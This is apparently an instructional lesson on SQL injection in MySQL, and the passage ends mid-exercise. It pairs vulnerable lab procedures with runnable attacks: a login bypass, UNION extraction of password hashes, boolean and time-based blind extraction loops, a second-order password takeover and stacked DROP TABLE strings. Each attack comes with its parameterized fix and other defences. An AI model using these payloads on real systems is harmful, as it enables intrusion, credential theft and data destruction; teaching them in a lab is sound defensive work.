

## Introduction

SQL injection is the vulnerability that occurs when an application builds an SQL statement by **concatenating untrusted input into the statement text**. The input was meant to be *data* — a user name, a search term, an order number — but because it is spliced into the code, an attacker can choose input that the SQL parser reads as *code*. The consequences range from logging in as an administrator without a password, to reading every table the application's account can read, to modifying or destroying data.

You met the mechanism in [Prepared Statements and Dynamic SQL](/lessons/m09-prepared-dynamic-sql): a tautology (`' OR '1'='1`) and a `UNION` that leaked customer e-mail addresses, and the fix with `?` placeholders. This lesson goes further, in the direction professionals need:

- the **attack taxonomy** — in-band (tautology, comment truncation, `UNION`), inferential or **blind** (boolean- and time-based), and **second-order** injection;
- why "escaping" and "input validation" are not enough on their own, and what **parameterization** guarantees formally;
- the cases placeholders cannot handle — **dynamic identifiers** and `LIKE` patterns — and how to handle them;
- **ORM pitfalls**: where frameworks that "prevent SQL injection" still let it through;
- **defence in depth** — least privilege, definer procedures, error handling and monitoring — so that one missed bug is not a breach.

:::warning[Harmless by construction]
Every attack in this lesson targets **your own private lab copy** of the shop dataset plus a small `app_users` table you create. The vulnerable code lives in stored procedures that build SQL with `CONCAT` and run it with `PREPARE`/`EXECUTE` — exactly the pattern of an application that concatenates strings before sending them to MySQL. Nothing leaves your lab. Do not test these techniques against systems you are not explicitly authorized to test.
:::

## DBMS Theory

:::theory[Code, data and the parse tree]
A DBMS processes a statement in phases: **lex/parse** (text → syntax tree), **resolve** (names → objects, types), **optimize**, **execute**. Injection is a *parse-time* attack: the attacker's input changes the **syntax tree**. In the intended statement

`SELECT … WHERE username = '⟨input⟩'`

the input is meant to become one string-literal leaf. If the input contains a quote, the lexer ends the literal there and treats the rest as tokens — new operators (`OR`), new clauses (`UNION SELECT`), or a comment that deletes the remainder of the intended statement.

**Parameterization** fixes the tree *before* any value is known. The statement is parsed with **parameter markers** (`?`) as leaves; values are **bound** to the markers afterwards. A bound value can only ever be a literal of the marker's type — it never passes through the lexer as SQL text — so no value can change the tree. That is a structural guarantee, not a heuristic, which is why OWASP lists parameterized queries as the primary defence.
:::

Injection is one instance of a general class — **injection flaws** — in which an interpreter receives a string that mixes a command language with untrusted data: SQL, OS shells, LDAP filters, XPath, NoSQL query documents, template engines. The cure is always the same idea: keep code and data in **separate channels**.

| Attack class | How the attacker gets information | Typical payload shape |
|---|---|---|
| **Tautology** | Makes a `WHERE` always true | `' OR '1'='1` |
| **Comment truncation** | Cuts off the rest of the statement (password check, tenant filter) | `admin' -- ` or `admin' #` |
| **UNION-based** (in-band) | Appends a second `SELECT` whose rows come back in the page | `0 UNION SELECT user, hash, … FROM …` |
| **Error-based** (in-band) | Forces a database error whose message contains data | expressions that fail with data in the message |
| **Boolean-based blind** | Infers one bit per request from a yes/no difference in the response | `' OR SUBSTRING((SELECT …),1,1)='a` |
| **Time-based blind** | Infers bits from response *latency* | `IF(condition, SLEEP(n), 0)` |
| **Second-order** | Stores a payload safely; a *later* query concatenates the stored value | user name `admin' -- ` used in a later `UPDATE` |
| **Stacked queries** | Appends a second statement after `;` | `'; DROP TABLE …` — blocked when the API allows only one statement |

## Why It Exists

Injection exists because building SQL by string concatenation is the *easiest* thing to write, and it works perfectly for every input the developer thought of:

```python
# Python — vulnerable: user input becomes part of the SQL text
cur.execute("SELECT * FROM app_users WHERE username = '" + username + "'")
```

It is still common because:

- **Languages make concatenation natural** (f-strings, template literals, `+`) and some SQL fragments cannot be parameterized (table/column names, `ORDER BY` direction, `IN` lists of variable length), so developers drop back to strings "just this once".
- **Defences that look sufficient are not.** Escaping quotes fails in numeric contexts (`WHERE order_id = ` + input needs no quote to break out), under character-set mismatches, or when someone forgets one call. Input validation on the client is bypassed by sending requests directly.
- **Data travels.** Input validated and stored correctly today is concatenated into a query by a different service, a batch job or a reporting tool tomorrow — second-order injection.
- **Frameworks hide the SQL.** ORMs parameterize by default, which teaches developers they are safe, until they use a raw-SQL escape hatch with string formatting.

Its persistence is visible in OWASP's Top 10, where *Injection* has been present in every edition (A03 in the 2021 list). The damage is bounded by one thing the attacker cannot change: **the privileges of the database account the application uses** — which is why this lesson ends with least privilege.

## Internal Working

:::internals[Where the attack happens inside MySQL]
1. The application (or, in this lab, a stored procedure) produces a **statement string**. For a client-side query, the driver sends it in a `COM_QUERY` packet; for server-side prepared statements it sends `COM_STMT_PREPARE` with `?` markers, then `COM_STMT_EXECUTE` with the values in a separate, typed binary payload.
2. MySQL's **lexer** turns the string into tokens. A `'` starts a string literal; `''` or `\'` inside it is an escaped quote (backslash escapes apply unless `NO_BACKSLASH_ESCAPES` is in `sql_mode`). `-- ` (two dashes **and a space or control character**), `#` and `/* … */` start comments; `/*! … */` is a *versioned comment* whose content MySQL **executes** — a favourite trick for evading filters.
3. The **parser** builds the tree. With concatenation, the attacker's tokens are now part of the tree. With markers, the tree has placeholder leaves.
4. The **resolver** checks privileges for every object in the tree (request verification, see [Privileges and Roles](/lessons/m11-privileges-roles)). An injected `UNION SELECT … FROM mysql.user` fails here if the account has no privilege — least privilege acting after the injection succeeded.
5. Execution proceeds; results, errors and timing flow back to the attacker through the application.

`PREPARE` (SQL-level) and `COM_STMT_PREPARE` (protocol-level) accept **exactly one statement**, and a plain `COM_QUERY` accepts several only if the client enabled the `CLIENT_MULTI_STATEMENTS` capability. Most drivers leave it off, which is why *stacked* injections (`'; DROP TABLE …`) usually fail with a syntax error in MySQL — but everything else in the table above still works within one statement.
:::



## MySQL Implementation

Create a small user table for the login examples. Passwords are stored as plain SHA-256 here only to keep the demo short; [Users and Authentication](/lessons/m11-users-authentication) explains why real systems use a slow, salted algorithm.

```sql run
CREATE TABLE app_users (
  user_id       INT PRIMARY KEY AUTO_INCREMENT,
  username      VARCHAR(40) NOT NULL UNIQUE,
  password_hash CHAR(64)    NOT NULL,
  is_admin      BOOLEAN     NOT NULL DEFAULT FALSE
);
INSERT INTO app_users (username, password_hash, is_admin) VALUES
  ('admin', SHA2('correct horse battery', 256), TRUE),
  ('maria', SHA2('maria-pass-2024', 256),       FALSE),
  ('dev',   SHA2('dev-pass', 256),              FALSE);
SELECT user_id, username, is_admin FROM app_users ORDER BY user_id;
```

Now the vulnerable login. The procedure stands in for application code that concatenates the two form fields into the SQL text:

```sql run
CREATE PROCEDURE login_unsafe(IN p_user VARCHAR(200), IN p_pass VARCHAR(200))
BEGIN
  SET @sql = CONCAT('SELECT user_id, username, is_admin FROM app_users WHERE username = ''', p_user,
                    ''' AND password_hash = SHA2(''', p_pass, ''', 256)');
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
END;
CALL login_unsafe('maria', 'maria-pass-2024');
CALL login_unsafe('maria', 'wrong password');
```

The correct password returns Maria's row; a wrong one returns nothing. The code "works". Now type a user name that contains a quote and a comment:

```sql run
CALL login_unsafe('admin'' -- ', 'anything at all');
SELECT @sql AS statement_the_server_parsed;
```

The attacker is logged in as the administrator without knowing the password. `@sql` shows why: the quote in the input closed the string literal, and `-- ` turned the password check into a comment. The fixed version uses placeholders; the input is bound as a value and can only ever be compared with `username`:

```sql run
CREATE PROCEDURE login_safe(IN p_user VARCHAR(200), IN p_pass VARCHAR(200))
BEGIN
  PREPARE stmt FROM
    'SELECT user_id, username, is_admin FROM app_users WHERE username = ? AND password_hash = SHA2(?, 256)';
  SET @u = p_user, @p = p_pass;
  EXECUTE stmt USING @u, @p;
  DEALLOCATE PREPARE stmt;
END;
CALL login_safe('admin'' -- ', 'anything at all');
CALL login_safe('maria', 'maria-pass-2024');
```

The attack returns no row — there is no user literally named `admin' -- ` — and the legitimate login still works. Nothing about the input was "cleaned"; it simply never became SQL.

## Syntax Breakdown

The MySQL syntax that matters for attackers and defenders:

| Element | Relevance |
|---|---|
| `'…'`, `''`, `\'` | String literal and its two escape forms. Backslash escaping is disabled by `NO_BACKSLASH_ESCAPES`, so an escaping routine written for one mode is wrong in the other. |
| `-- ` | Comment to end of line — **requires** a space/control character after the dashes in MySQL. `--x` is not a comment. |
| `#` | Comment to end of line (MySQL extension). |
| `/* … */`, `/*! … */`, `/*!80000 … */` | Block comment; the `!` forms are **executed** by MySQL (optionally only on versions ≥ the number). Used to hide keywords from naive filters. |
| `UNION [ALL] SELECT` | Appends rows; column count and compatible types must match the original — attackers probe with `ORDER BY n` or `NULL, NULL, …`. |
| `information_schema.TABLES/COLUMNS` | Reconnaissance: lists objects the account can see. Least privilege shrinks what it reveals. |
| `SLEEP(n)`, `BENCHMARK(n, expr)` | Delays used for time-based blind injection. |
| `PREPARE … FROM`, `EXECUTE … USING` | Server-side parameterization at the SQL level (dynamic SQL in stored programs). One statement only. |
| `?` | Parameter marker: stands for a **value**, never for an identifier, keyword, operator or list. |
| `QUOTE(str)` | Returns a correctly escaped string literal — for generating SQL text when there is no alternative. |
| Backtick identifiers `` `name` `` | Quote identifiers; a backtick inside the name is doubled (``` `` ```). Quoting is necessary but not sufficient for dynamic identifiers — whitelist first. |
| `LIKE` with `%`, `_`, `ESCAPE` | Wildcards inside a *bound* value still act as wildcards — not injection, but a filter-bypass/performance issue. |

In application code, the parameterized forms look like this (display-only):

```python
# Python (mysql-connector / PyMySQL): placeholders are %s, values passed separately
cur.execute("SELECT user_id FROM app_users WHERE username = %s AND password_hash = SHA2(%s, 256)",
            (username, password))
```

```java
// Java (JDBC)
PreparedStatement ps = conn.prepareStatement(
    "SELECT user_id FROM app_users WHERE username = ? AND password_hash = SHA2(?, 256)");
ps.setString(1, username);
ps.setString(2, password);
```

## Practical Examples

**1. Numeric context: escaping does not help.** An order-lookup endpoint takes an order number. Because the value is numeric, the developer did not put quotes around it — so the attacker does not need a quote to break out:

```sql run
CREATE PROCEDURE order_lookup_unsafe(IN p_order_id VARCHAR(200))
BEGIN
  SET @sql = CONCAT('SELECT order_id, customer_id, status FROM orders WHERE order_id = ', p_order_id);
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
END;
CALL order_lookup_unsafe('11');
```

First, **reconnaissance** — the attacker uses `UNION` and `information_schema` to learn the structure of a table they have only guessed exists. The `UNION` must return three columns, matching the original query:

```sql run
CALL order_lookup_unsafe(
  '0 UNION SELECT ORDINAL_POSITION, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE() AND TABLE_NAME = ''app_users''');
```

Then **extraction** — the page that shows "order, customer, status" now shows user ids, user names and password hashes:

```sql run
CALL order_lookup_unsafe('0 UNION SELECT user_id, username, password_hash FROM app_users');
```

A quote-escaping function would not have changed a single character of these payloads (only the `'app_users'` literal needs quotes, and the attacker could write it as a hex literal `0x6170705f7573657273`). Two correct fixes: bind the value with a placeholder, and declare the parameter with its real type (`IN p_order_id INT UNSIGNED`) so that a non-numeric string is rejected or converted before it reaches any SQL.

**2. Boolean-based blind injection: one bit per request.** Many endpoints never display query results — they answer only *yes* or *no* ("this e-mail is already registered"). That is enough:

```sql run
CREATE PROCEDURE email_exists_unsafe(IN p_email VARCHAR(300), OUT p_found BOOLEAN)
BEGIN
  SET @sql = CONCAT('SELECT COUNT(*) > 0 INTO @found FROM customers WHERE email = ''', p_email, '''');
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
  SET p_found = @found;
END;
CALL email_exists_unsafe('nobody@example.com', @f1);
CALL email_exists_unsafe(
  'nobody@example.com'' OR SUBSTRING((SELECT password_hash FROM app_users WHERE username = ''admin''), 1, 1) = ''9',
  @f2);
CALL email_exists_unsafe(
  'nobody@example.com'' OR SUBSTRING((SELECT password_hash FROM app_users WHERE username = ''admin''), 1, 1) = ''8',
  @f3);
SELECT @f1 AS plain_answer, @f2 AS first_char_is_9, @f3 AS first_char_is_8;
```

The endpoint answered *yes* to "is the first character of the admin hash `9`?" and *no* to `8`. Each request leaks one yes/no bit. Automated tools (sqlmap is the best known) simply ask enough questions. The procedure below is the attacker's loop — written in SQL only so that it runs in your lab:

```sql run
CREATE PROCEDURE blind_extract(IN p_len INT)
BEGIN
  DECLARE pos INT DEFAULT 1;
  DECLARE k INT;
  DECLARE ch CHAR(1);
  DECLARE found BOOLEAN;
  SET @recovered = '', @requests = 0;
  WHILE pos <= p_len DO
    SET k = 1;
    probe: WHILE k <= 16 DO
      SET ch = SUBSTRING('0123456789abcdef', k, 1);
      CALL email_exists_unsafe(
        CONCAT('nobody@example.com'' OR SUBSTRING((SELECT password_hash FROM app_users WHERE username = ''admin''), ',
               pos, ', 1) = ''', ch),
        found);
      SET @requests = @requests + 1;
      IF found THEN
        SET @recovered = CONCAT(@recovered, ch);
        LEAVE probe;
      END IF;
      SET k = k + 1;
    END WHILE;
    SET pos = pos + 1;
  END WHILE;
END;
CALL blind_extract(8);
SELECT @recovered AS recovered_by_attacker, @requests AS requests_sent,
       (SELECT LEFT(password_hash, 8) FROM app_users WHERE username = 'admin') AS actual_prefix;
```

Eight characters of the hash recovered through an endpoint that never displays data. A linear scan of 16 hex digits needs up to 16 requests per character; a binary search with `>` comparisons needs 4, so a 64-character hash costs about 256 requests — seconds for a script.

**3. Time-based blind injection.** If even the yes/no difference is hidden — say, a search logger that returns nothing at all — the attacker makes the *server's response time* carry the bit:

```sql run
CREATE TABLE search_log (id INT AUTO_INCREMENT PRIMARY KEY, term VARCHAR(200));
CREATE PROCEDURE log_search_unsafe(IN p_term VARCHAR(400))
BEGIN
  SET @sql = CONCAT('INSERT INTO search_log (term) VALUES (''', p_term, ''')');
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
END;
CALL log_search_unsafe('blue jeans');
```

```sql run measured
CALL log_search_unsafe('x''), (IF(SUBSTRING((SELECT password_hash FROM app_users WHERE username = ''admin''), 1, 1) = ''9'', SLEEP(0.5), ''n'')) -- ');
CALL log_search_unsafe('x''), (IF(SUBSTRING((SELECT password_hash FROM app_users WHERE username = ''admin''), 1, 1) = ''8'', SLEEP(0.5), ''n'')) -- ');
```

Compare the two measured elapsed times: the statement whose guess is right (`9`) takes about half a second longer, because `SLEEP(0.5)` ran. The injected payload also turned one `INSERT` row into two, which you can see in the log:

```sql run
SELECT id, term FROM search_log ORDER BY id;
```

`SLEEP` returned 0 for the correct guess and the `IF` returned `'n'` for the wrong one — the stored values are a side effect; the information was in the timing.

**4. Second-order injection.** Registration uses a parameterized `INSERT` — correct, safe, and the malicious user name is stored *verbatim*. Later, a password-change routine reads the stored name and concatenates it:

```sql run
CREATE PROCEDURE register_user(IN p_user VARCHAR(40), IN p_pass VARCHAR(200))
BEGIN
  INSERT INTO app_users (username, password_hash) VALUES (p_user, SHA2(p_pass, 256));
END;
CREATE PROCEDURE change_password_unsafe(IN p_user_id INT, IN p_new VARCHAR(200))
BEGIN
  DECLARE v_name VARCHAR(40);
  SELECT username INTO v_name FROM app_users WHERE user_id = p_user_id;
  SET @sql = CONCAT('UPDATE app_users SET password_hash = SHA2(''', p_new,
                    ''', 256) WHERE username = ''', v_name, '''');
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
END;
CALL register_user('admin'' -- ', 'whatever');
SELECT user_id, username FROM app_users ORDER BY user_id;
```

The attacker registered as user 4, `admin' -- `. They now change "their own" password:

```sql run
CALL change_password_unsafe(4, 'attacker-chosen');
SELECT @sql AS executed_statement;
SELECT username, password_hash = SHA2('attacker-chosen', 256) AS has_attacker_password
FROM app_users ORDER BY user_id;
```

The *administrator's* password was changed, the attacker's own row was not. The lesson: **"trusted" data from your own database is still data.** Parameterize every statement, no matter where its values came from.

## Execution Walkthrough

Trace the login bypass through the stages of statement processing, using the captured `@sql` text.

```walkthrough
title: "CALL login_unsafe('admin'' -- ', 'anything')"
steps:
  - title: "1. String building"
    explain: >-
      The procedure concatenates fixed SQL fragments with the two inputs. The user name contains a quote, a space,
      two dashes and a trailing space. The resulting text is what the server will lex.
    sql: |
      SELECT CONCAT('SELECT user_id, username, is_admin FROM app_users WHERE username = ''', 'admin'' -- ',
                    ''' AND password_hash = SHA2(''', 'anything', ''', 256)') AS statement_text;
  - title: "2. Lexing"
    explain: >-
      The lexer reads `'admin'` as a complete string literal — the input's quote closed it. Then it sees `-- `
      followed by a space, which starts a comment that runs to the end of the line. The intended password check
      `AND password_hash = SHA2('anything', 256)` is inside the comment.
  - title: "3. Parsing — the tree the attacker chose"
    explain: >-
      The parse tree is SELECT … FROM app_users WHERE username = 'admin'. It is a perfectly valid statement, so no
      error is raised and nothing looks unusual to the server. The equivalent statement written directly returns
      the administrator row.
    sql: |
      SELECT user_id, username, is_admin FROM app_users WHERE username = 'admin';
  - title: "4. Same input, parameterized"
    explain: >-
      With placeholders, the tree is fixed as username = ? AND password_hash = SHA2(?, 256) before the value is
      bound. The bound user name is one string; no row has that name, so the result is empty.
    sql: |
      SET @u = 'admin'' -- ', @p = 'anything';
      PREPARE s FROM 'SELECT user_id, username, is_admin FROM app_users WHERE username = ? AND password_hash = SHA2(?, 256)';
      EXECUTE s USING @u, @p;
      DEALLOCATE PREPARE s;
```

Step 4 returns no rows: no user is literally named `admin' -- `, so the bound value matches nothing and the password check is still part of the statement.

## Output

The captured outputs summarize the attacks:

- **Comment truncation:** `login_unsafe('admin'' -- ', …)` returned the administrator row (`is_admin = 1`) with a wrong password; `login_safe` returned nothing for the same input.
- **UNION in a numeric context:** `order_lookup_unsafe` first listed the four columns of `app_users` from `information_schema`, then returned all three users with their password hashes through a page meant to show one order.
- **Boolean blind:** the yes/no endpoint answered `1` for the guess `9` and `0` for `8`; the automated loop recovered the first eight hash characters (`recovered_by_attacker` equals `actual_prefix`) in the number of requests shown in `requests_sent`.
- **Time-based blind:** the correct guess's `CALL` took roughly 500 ms longer than the wrong one (see the measured timings), and the log shows the extra injected rows.
- **Second-order:** after a safe registration of `admin' -- `, the unsafe password change set the **admin's** password (`has_attacker_password = 1` only on the admin row).

Each vulnerable procedure differs from its safe counterpart in a single design decision: whether input reached the SQL **text**.

## Alternative Approaches

Defences, from primary to supporting, as OWASP orders them:

| Defence | What it does | Limits |
|---|---|---|
| **Parameterized queries** (server-side or correct client-side) | Values are bound, never parsed | Cannot parameterize identifiers, keywords, operators |
| **Stored procedures with static SQL** | SQL text fixed at `CREATE PROCEDURE`; parameters are typed variables | Safe only if the procedure does not build dynamic SQL from parameters (as the unsafe ones here do) |
| **Allow-list input validation** | Map user choices to fixed tokens (`'price_desc'` → `` `price` DESC ``) | For identifiers and keywords; also good general hygiene for typed values |
| **Escaping (`QUOTE()`, driver escape functions)** | Produces a correct literal | Error-prone: must never be forgotten, depends on `sql_mode` and character set, useless in unquoted numeric contexts. OWASP: "strongly discouraged", last resort |
| **ORM / query builder** | Generates parameterized SQL | Raw-SQL escape hatches and `order_by(user_input)` reintroduce the risk |
| **Least privilege** | Limits what a successful injection can reach | Does not prevent the injection |
| **WAF / MySQL Enterprise Firewall** | Blocks known patterns / allow-lists statement digests | Pattern WAFs are bypassable (encoding, `/*!…*/`); allow-lists need training and maintenance |

**Dynamic identifiers** — the one case placeholders cannot cover — need a whitelist. Map the user's choice to a known identifier, then quote it:

```sql run
CREATE PROCEDURE products_sorted(IN p_sort VARCHAR(40))
BEGIN
  DECLARE v_order_by VARCHAR(60);
  SET v_order_by = CASE p_sort
                     WHEN 'price_asc'  THEN '`price` ASC, `product_id`'
                     WHEN 'price_desc' THEN '`price` DESC, `product_id`'
                     WHEN 'name'       THEN '`name`, `product_id`'
                     ELSE NULL
                   END;
  IF v_order_by IS NULL THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'Unsupported sort option';
  END IF;
  SET @sql = CONCAT('SELECT product_id, name, price FROM products ORDER BY ', v_order_by, ' LIMIT 3');
  PREPARE stmt FROM @sql;
  EXECUTE stmt;
  DEALLOCATE PREPARE stmt;
END;
CALL products_sorted('price_desc');
```

```sql run error
CALL products_sorted('price; DROP TABLE orders');
```

The SQL text is assembled only from fragments the developer wrote; the user merely chooses among them. The rejected input never reaches `PREPARE`.

**`LIKE` patterns** are a related trap. A bound search term is safe from injection, but `%` and `_` in it are still wildcards — a user who searches for `%` matches every row, which can be a data-exposure bug (an "exact-ish" lookup that returns everything) and a performance problem:

```sql run
SET @term = '%';
PREPARE s FROM 'SELECT COUNT(*) AS matches FROM customers WHERE email LIKE CONCAT(''%'', ?, ''%'')';
EXECUTE s USING @term;
SET @escaped = REPLACE(REPLACE(REPLACE(@term, '\\', '\\\\'), '%', '\\%'), '_', '\\_');
EXECUTE s USING @escaped;
DEALLOCATE PREPARE s;
```

With the wildcard escaped, the search looks for a literal `%` and finds nothing.

## Performance Analysis

Security is the reason to parameterize, but the performance consequences are worth knowing:

- **Server-side prepared statements** parse and resolve once and re-optimize per execution with the actual values ([Prepared Statements](/lessons/m09-prepared-dynamic-sql)). Under a connection pool, a statement prepared per request costs an extra round trip (`PREPARE`, `EXECUTE`, `CLOSE`); drivers mitigate this with statement caches. Many MySQL drivers **emulate** prepares client-side by default (Connector/J `useServerPrepStmts=false`, PDO `ATTR_EMULATE_PREPARES=true`, PyMySQL always) — they escape and inline the values correctly using the connection's character set. Emulation is safe when the driver knows the real connection charset; it was the source of historic multibyte-charset bypasses when applications changed charsets with a raw `SET NAMES` behind the driver's back.
- **Digest-based monitoring works better with parameterized code.** `performance_schema` groups statements by *digest* (literals replaced by `?`). Concatenated SQL produces the same digests, but injected statements produce **new digests** — a signal: a sudden statement shape containing `UNION SELECT … information_schema` from the application account should alert someone. `STATEMENT_DIGEST_TEXT()` shows what the normalized form looks like:

```sql run
SELECT STATEMENT_DIGEST_TEXT('SELECT order_id FROM orders WHERE order_id = 11') AS normal_shape,
       STATEMENT_DIGEST_TEXT('SELECT order_id FROM orders WHERE order_id = 0 UNION SELECT user_id FROM app_users') AS injected_shape;
```

- **Attack cost.** Blind extraction needs many requests (hundreds per secret); time-based attacks hold connections for seconds each. Rate limiting, request timeouts and `max_execution_time` for the application account raise the cost — they are not a fix, but they slow exfiltration and make it visible.
- **`LIKE '%…%'` with user wildcards** forces scans regardless of indexes; escaping or using full-text search keeps search endpoints predictable.

## Best Practices

:::best-practice[Injection-proof data access]
1. **Parameterize every statement that includes a value**, including values read from your own database, files, message queues or other services.
2. **Never build SQL text from input.** When a structural part must vary (sort column, direction, table), select it from a hard-coded allow-list and quote the identifier.
3. **Type your parameters.** Integers as integers, dates as dates — in procedure signatures and in application code.
4. **Use ORMs as designed** and treat every raw-SQL API (`raw()`, `text()`, `literal()`, `execute()` with formatting) as security-sensitive code that requires review.
5. **Keep `CLIENT_MULTI_STATEMENTS` off** in application connections.
6. **Run the application with least privilege**: DML on its own schema; no `FILE`, no DDL, no access to `mysql.*`, other schemas or `performance_schema`. Store secrets (password hashes, tokens) in tables or schemas the web tier does not need.
7. **Do not leak database errors to clients.** Log them server-side; return a generic message. Error text helps error-based and UNION-based attacks.
8. **Monitor and test.** Alert on new statement digests and on SQL errors from the application account; run SAST rules for string-built SQL and DAST/sqlmap against staging; include injection cases in code review checklists.
:::

## Common Mistakes

**Mistake 1 — escaping by hand.** Replacing `'` with `''` misses backslash sequences (`\'` is an escaped quote unless `NO_BACKSLASH_ESCAPES` is set), so input ending in a backslash can still break out — and it does nothing for numeric contexts (Example 1).

**Mistake 2 — trying to parameterize an identifier.** A `?` stands for a value, so `ORDER BY ?` binds a constant string — the statement prepares fine, but sorts by the same literal for every row (i.e. not at all), and `SELECT ? FROM t` returns the literal column name. Table names are rejected at prepare time:

```sql run error
PREPARE s FROM 'SELECT COUNT(*) FROM ?';
```

Use the whitelist pattern from Alternative Approaches.

**Mistake 3 — trusting stored data.** The second-order attack in Example 4 passed through a fully parameterized registration. Every later query must parameterize too.

**Mistake 4 — relying on "only one statement" as protection.** `PREPARE` refuses stacked statements:

```sql run error
SET @q = 'SELECT 1; DROP TABLE app_users';
PREPARE s FROM @q;
```

But the login bypass, the `UNION` extraction, both blind attacks and the second-order `UPDATE` were all single statements.

**Mistake 5 — ORM escape hatches with string formatting.** Each line below is vulnerable (display-only):

```python
User.objects.raw(f"SELECT * FROM app_users WHERE username = '{name}'")        # Django raw() with f-string
session.execute(text(f"SELECT * FROM app_users WHERE username = '{name}'"))   # SQLAlchemy text() with f-string
User.objects.order_by(request.GET["sort"])     # user-controlled field name: validate against a whitelist
```

```javascript
sequelize.query(`SELECT * FROM app_users WHERE username = '${name}'`);  // template literal
```

The safe forms pass values separately — `raw("… WHERE username = %s", [name])`, `text("… = :name")` with `{"name": name}`, Sequelize `replacements`/`bind` — and map sort keys through a dictionary of allowed fields.

**Mistake 6 — validating only on the client.** JavaScript checks in the browser are a usability feature. Attackers send HTTP requests directly. Validation, when used, belongs on the server — and is a second layer, not a substitute for parameterization.

## Industry Application

- **Secure SDLC.** Mature teams enforce parameterization with static analysis (Semgrep/CodeQL rules for string-built SQL, linters such as Bandit's `B608`), review checklists, and dynamic scanning in CI (OWASP ZAP, Burp, sqlmap against staging). Findings are tracked like bugs with severity based on the account's privileges.
- **Database-side controls.** Production application accounts are DML-only on their schema; sensitive tables (credentials, payment tokens) live in schemas the web tier cannot read, or behind definer procedures. MySQL Enterprise Firewall (and some proxies) can enforce a learned allow-list of statement digests per account, blocking statement shapes the application never produces.
- **Detection.** Security teams watch for SQL errors spiking from the application account (attackers' probes generate syntax errors), new statement digests, queries touching `information_schema` from the app, and unusual `SLEEP`/`BENCHMARK` usage — all derivable from `performance_schema` statement summaries ([Database Monitoring](/lessons/m11-monitoring)).
- **Incident response.** After an injection, responders determine what the account could reach (its privileges define the potential data exposure), rotate credentials and secrets stored in reachable tables, and use the binary log and audit log to establish what was read or changed ([Restoration and Point-in-Time Recovery](/lessons/m11-restore-pitr) for undoing changes).
- **Compliance.** PCI DSS explicitly requires protection against injection flaws in custom code; OWASP ASVS (V5) specifies parameterized queries or equivalent as a verification requirement.

## Practice Exercises

```exercise
id: ex1
title: Fix the order lookup
difficulty: easy
kind: dml
concepts: [prepared-statements, sql-injection]
prompt: |
  Create a procedure **`order_lookup_safe(IN p_order_id INT UNSIGNED)`** that returns `order_id`, `customer_id`,
  `status` from `orders` for the given order, using **`PREPARE … EXECUTE … USING`** with a `?` placeholder (no
  value may be concatenated into the SQL text). Then create a table **`lookup_result(order_id INT, customer_id INT,
  status VARCHAR(20))`** and store the result of looking up order **11** in it, by copying the row with
  `INSERT … SELECT` (you may use a plain `SELECT` with a literal for this step).

  The checker reads the procedure's existence and parameter type, and the contents of `lookup_result`.
hints:
  - "Inside the procedure: SET @id = p_order_id; PREPARE s FROM '… WHERE order_id = ?'; EXECUTE s USING @id;"
  - "The table copy is independent of the procedure: INSERT INTO lookup_result SELECT order_id, customer_id, status FROM orders WHERE order_id = 11;"
solution: |
  CREATE PROCEDURE order_lookup_safe(IN p_order_id INT UNSIGNED)
  BEGIN
    SET @id = p_order_id;
    PREPARE s FROM 'SELECT order_id, customer_id, status FROM orders WHERE order_id = ?';
    EXECUTE s USING @id;
    DEALLOCATE PREPARE s;
  END;
  CREATE TABLE lookup_result (order_id INT, customer_id INT, status VARCHAR(20));
  INSERT INTO lookup_result SELECT order_id, customer_id, status FROM orders WHERE order_id = 11;
check: |
  SELECT p.PARAMETER_NAME, p.DTD_IDENTIFIER, r.order_id, r.customer_id, r.status
  FROM information_schema.PARAMETERS p
  CROSS JOIN lookup_result r
  WHERE p.SPECIFIC_SCHEMA = DATABASE() AND p.SPECIFIC_NAME = 'order_lookup_safe';
explanation: |
  Two layers fix the numeric-context injection: the typed parameter (`INT UNSIGNED`) means a payload such as
  `0 UNION SELECT …` can never even be passed as a value, and the placeholder means that whatever value is passed
  is bound, not parsed. In this particular procedure, because the SQL is static, plain static SQL
  (`SELECT … WHERE order_id = p_order_id`) would be just as safe — dynamic SQL is only needed when the statement's
  structure varies.
```

```exercise
id: ex2
title: Spot the injected statements in a query log
difficulty: medium
kind: query
setup: |
  CREATE TABLE app_query_log (
    log_id INT PRIMARY KEY, account VARCHAR(40) NOT NULL, statement_text TEXT NOT NULL);
  INSERT INTO app_query_log VALUES
    (1,'orders_app','SELECT order_id, status FROM orders WHERE order_id = 11'),
    (2,'orders_app','SELECT order_id, status FROM orders WHERE order_id = 12'),
    (3,'orders_app','SELECT order_id, status FROM orders WHERE order_id = 0 UNION SELECT user_id, password_hash FROM app_users'),
